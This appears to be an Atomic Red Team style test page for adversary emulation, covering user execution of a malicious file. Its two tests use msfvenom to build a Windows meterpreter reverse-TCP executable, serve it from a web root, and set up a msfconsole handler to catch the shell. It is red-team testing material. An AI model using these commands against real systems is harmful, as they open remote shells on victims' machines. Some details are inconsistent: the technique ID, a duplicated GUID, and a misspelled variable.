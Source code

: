 # T1000 - Kali Operation Guideline
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1204/002)
<blockquote>decompression.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Create an exploit using msfvenom](#atomic-test-1---create-an-exploit-using-msfvenom)
- [Atomic Test #2 - Set & Run a handler using msfconsole](#atomic-test-2---set--run-a-handler-using-msfconsole)


<br/>

## Atomic Test #1 - Create an exploit using msfvenom
Create an exploit using msfvenom

**Supported Platforms:** bash


**auto_generated_guid:** 8bebc690-18c7-4549-bc98-210f7019efff





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| payload | payload | String | windows/meterpreter/reverse_tcp |
| LHOST | LHOST | String | 192.168.58.104 |
| LPORT | LPORT | String | 4444 |
| format | format | String | exe |
| output_path | output_path | String | /var/www/html/rs_exploit.exe |


#### Attack Commands: Run with `bash`! 
```bash
msfvenom -p #{payload} LHOST=#{LHOST} LPORT=#{LPORT} -f #{format} -o #{output_path}
```

<br/>

## Atomic Test #2 - Set & Run a handler using msfconsole
Guideline of set & run a handler using msfconsole

**Supported Platforms:** bash


**auto_generated_guid:** 8bebc690-18c7-4549-bc98-210f7019efff





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| hander | handler | String | exploit/multi/handler |
| payload | payload | String | windows/meterpreter/reverse_tcp |
| LHOST | LHOST | String | 192.168.58.104 |
| LPORT | LPORT | String | 4444 |


#### Attack Commands: Run with `bash`! 


```bash
cat << EOF
run the cmdlets below in kali(#{LHOST}):
msfconsole
msfconsole>use #{handler}
msfconsole>set PAYLOAD #{payload}
msfconsole>set LHOST #{LHOST}
msfconsole>set LPORT #{LPORT}
msfconsole>exploit
EOF
```


#### Dependencies:  Run with `bash`!

<br/>
